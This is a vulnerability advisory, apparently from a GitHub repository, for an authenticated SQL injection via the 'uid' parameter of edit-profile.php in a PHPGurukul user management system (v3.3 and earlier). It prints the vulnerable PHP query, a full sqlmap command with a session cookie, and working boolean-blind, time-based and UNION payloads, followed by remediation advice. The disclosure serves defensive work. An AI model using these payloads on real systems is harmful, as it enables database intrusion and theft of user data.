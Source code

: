 #  SQL Injection via `uid` GET Parameter in `edit-profile.php` in User Registration & Login and User Management System With Admin Panel ≤ v3.3



### 👨‍💻 BUG Author:

**4m3rr0r**

---

### 📦 Product Information:

* **Vendor Homepage**: [https://phpgurukul.com](https://phpgurukul.com)
* **Software Link**: [User Registration & Login and User Management System With Admin Panel](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)
* **Affected Version**: <= **v3.3**


---

### 🛠 Vulnerability Details:

#### 🧨 Vulnerability Type:

**SQL Injection (Time-Based, Boolean-Based Blind, and UNION-Based)**

#### 🧬 Root Cause:

The `uid` parameter from the GET request on `edit-profile.php` is directly interpolated into SQL queries without proper sanitization or use of prepared statements.

#### ⚠️ Impact:

An authenticated attacker can:

* Extract database names
* Bypass application logic
* Read sensitive user information (e.g., contact details, email, etc.)
* Potentially escalate privileges or maintain persistent access

#### 📋 Description:

In the vulnerable endpoint:

```php
$userid = $_GET['uid'];
$query = mysqli_query($con, "select * from users where id='$userid'");
```

The `uid` parameter is unsafely embedded into an SQL query, leading to a direct injection point exploitable via SQLMap.

---

### 🔬 Proof of Concept (PoC)

#### ⚙️ SQLMap Command (Authenticated Session Required):

```bash
sqlmap -u "http://192.168.16.109/loginsystem/admin/edit-profile.php?uid=1" \
--cookie="PHPSESSID=8daj6ivnvks7g2hckqohqeuo18" \
--batch --risk=3 --level=5 --dbs
```

![sqlmap](./Images/2025-07-10_22-20.png) 


#### ✅ Injection Types Identified:

```
Parameter: uid (GET)
    Type: boolean-based blind
    Payload: uid=1' AND 4107=4107-- iIis

    Type: time-based blind
    Payload: uid=1' AND (SELECT 4572 FROM (SELECT(SLEEP(5)))fYCC)-- XhJw

    Type: UNION query
    Payload: uid=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a626271,0x4665586763554a50624250577075546b70754a65426275784753676c464e505957514d62574e5078,0x7178717171)-- -
```

---

### 🛡 Suggested Remediation:

* Use **parameterized queries** or **prepared statements** in all SQL queries.
* Validate and sanitize all user input using whitelisting.
* Avoid directly using `$_GET` variables in queries without checks.

---

### 🔐 Security Recommendations:

* Enforce least privilege on the database user.
* Implement Web Application Firewall (WAF) rules.
* Sanitize output and error messages.
* Conduct regular code audits and pentests.

---

### 📚 References:

* [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)



---
